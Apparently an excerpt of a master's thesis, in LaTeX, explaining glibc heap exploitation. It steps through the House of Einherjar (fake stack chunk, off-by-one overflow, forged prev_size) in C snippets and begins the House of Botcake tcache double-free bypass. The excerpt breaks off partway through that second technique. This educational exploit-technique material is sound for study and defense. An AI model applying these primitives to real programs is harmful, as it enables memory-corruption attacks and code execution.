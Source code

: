 \documentclass{masterthesis}
\begin{document}
By considering the merge code of the free function we can tell if we have control over prev\_size , and prev\_inuse flag, we can have control over new chunk location. 
Consider the following sample, first, we need a chunk inside the heap, also, we need a fake chunk in any location. For this example we use the stack for fake chunk :
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* a;
	a = (uint8_t*) malloc(0x38);
	int real_a_size = malloc_usable_size(a);
	size_t fake_chunk[6];
	fake_chunk[0] = 0x100; // prev_size is now used and must equal fake_chunk's size to pass P->bk->size == P->prev_size
	fake_chunk[1] = 0x100; // size of the chunk just needs to be small enough to stay in the small bin
	fake_chunk[2] = (size_t) fake_chunk; // fwd
	fake_chunk[3] = (size_t) fake_chunk; // bck
	fake_chunk[4] = (size_t) fake_chunk; //fwd_nextsize
	fake_chunk[5] = (size_t) fake_chunk; //bck_nextsize
 \end{lstlisting}
Now we need another chunk inside the heap:
\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
	int real_b_size = malloc_usable_size(b);
	uint64_t* b_size_ptr = (uint64_t*)(b - 8);
 \end{lstlisting}
Now we use ‘a’ inorder to overflow and manipulate the size of ‘b’
\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
 \end{lstlisting}
 Now its time to set prev\_size of our fake chunk to an inorder to merge it with our fake chunk
 \begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
 \end{lstlisting}
The final step is free ‘b’ , after free ‘b’ it be merged with out fake chunk , so next malloc return our fake chunk
 \begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
 \end{lstlisting}


 \subsection{ The House of Botcake}
 The goal is to bypass Glibc security checks in newer versions to perform a tcache double-free attack.
Consider the following code, like always, first, we assume our target is at the stack 
 \begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
 \end{lstlisting}
 Now, We allocate 7 chunks to fill up the tcache in the future. As you remember we did this trick before too.
 \begin{lstlisting}[language=c,frame=tlrb]
 intptr_t *x[7];
  for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
    x[i] = malloc(0x100);
  }
\end{lstlisting}
\end{document}
